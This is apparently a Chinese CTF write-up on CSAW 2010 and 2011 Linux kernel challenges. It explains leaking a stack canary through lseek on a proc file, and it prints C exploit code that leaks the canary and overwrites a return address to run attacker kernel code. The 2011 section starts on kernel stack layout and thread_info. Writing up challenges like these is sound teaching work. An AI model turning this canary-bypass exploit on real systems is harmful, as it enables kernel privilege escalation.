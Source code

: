 ### csaw 2010

这题的漏洞是栈溢出，但是要绕过 canary，这题提供了一种绕过 canary 的方法。

 

原理是由于 proc 接口就像提供了一个文件的接口，因此可以对 proc 目录下的打开的文件描述符调用 lseek 函数，从而导致传递给 csaw_read 函数的 off 参数可以是非零值。通过这个属性我们可以在进程中 dump 出 canary 的值后将它填入具体位置绕过。利用如下，具体的偏移值（如 canary 和 ret 的距离）可以通过动态调试确定：

```
void trigger_vuln(int fd, int canary)
{
    #define MAX_PAYLOAD (MAX + 1  * sizeof(void*) )
    char buf[MAX_PAYLOAD], *p;
    bzero(buf, sizeof(buf));
 
    // memset(buf, 'A', sizeof(buf));
    p = buf + MAX;
    *(void **)p = (void *)canary;
 
    p += 7 * sizeof(void *);
    *(void **)p = (void *) &kernel_code;
 
    /* Point p to the canary's spot and set it. */
    printf("Payload:\n");
    print_hex(buf, sizeof(buf));
    printf("[*] hold on to your butts\n");
 
    /* Kaboom! */
    write(fd, buf, sizeof(buf));
}
int gather_information(int fd)
{
    int canary, i;
    if (lseek(fd, 32, SEEK_SET) == -1)
            err(2, "lseek");
    read(fd, &canary, sizeof(canary));
    printf("[+] found canary: %08x\n", canary);
    return canary;
}

```

### csaw 2011

这题很迷。。。调到后面才发现结构体不一样。。。但还是学到些东西的

 

简单说下原理：在 Linux 上，系统上的每个线程都在内核内存中分配了相应的内核堆栈。 x86 上的 Linux 内核堆栈的大小为 4096 或 8192 字节。尽管此大小似乎很小，无法包含完整的调用链和相关的本地堆栈变量，但实际上内核调用链相对较浅，当使用高效的分配器（如 SLUB）时，不鼓励内核函数滥用带有大局部堆栈变量的宝贵空间。可用。堆栈与 thread_info 结构共享 4k / 8k 的总大小，该结构包含有关当前线程的一些元数据，如 include/linux/sched.h 中所示：

```
union thread_union {
    struct thread_info thread_info;
    unsigned long stack[THREAD_SIZE/sizeof(long)];
};

```
